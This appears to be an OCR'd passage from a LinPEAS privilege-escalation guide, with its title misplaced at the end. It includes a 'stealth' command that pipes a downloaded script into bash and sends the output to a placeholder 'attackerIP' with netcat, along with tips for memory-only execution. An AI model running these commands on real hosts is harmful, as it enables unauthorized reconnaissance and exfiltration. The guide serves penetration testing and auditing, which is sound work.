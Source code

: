 ***

### V. Real-World Workflow Example

1. **Upload and Run LinPEAS**

```bash
scp linpeas.sh user@target:/tmp/linpeas.sh
ssh user@target
chmod +x /tmp/linpeas.sh
/tmp/linpeas.sh | tee "/tmp/linpeas_report.txt"

```

1. **Stealth Run, Remote Collect**

```bash
curl -sL <https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh> | bash | nc attackerIP 2222

```

1. **Section-Focused Scan for Targeted Paths**

```bash
/tmp/linpeas.sh -o procs_crons_timers_srvcs_sockets | tee "$OUTPUT_DIR/services.txt"

```

1. **Manual Review and Exploitation/Reporting**

* Red/yellow findings → exploit attempts, patch/mitigation, submission in reports.

***

### VI. Pro Tips & Best Practices

* Prioritize analysis of red/yellow highlights—a high likelihood of actual privilege escalation.\[6]
* Run as root (if available) for deeper coverage, or escalate with found vectors.
* Regularly update LinPEAS for new checks and threat coverage.\[9]
* Use -o sections to laser-focus on relevant infrastructure/attack vectors.
* Parse LinPEAS output in real time to guide exploitation or remediation.
* Use memory-only execution in sensitive environments and regularly schedule for monitoring.
* Always document findings for audit, compliance, or incident response reporting.

***

This LinPEAS guide equips penetration testers and defenders to rapidly, comprehensively, and stealthily enumerate escalation paths—accelerating post-exploitation, CTF, bug bounty, and infrastructure security workflows.# The LinPEAS Masterclass: Professional Linux Privilege Escalation & Enumeration\[3]\[5]\[1]\[6]\[7]\[8]\[9]

LinPEAS is a state-of-the-art automated script designed to comprehensively enumerate Linux hosts for privilege escalation vectors, vulnerabilities, and misconfigurations. It is essential for post-exploitation, CTFs, red team operations, and internal audits.
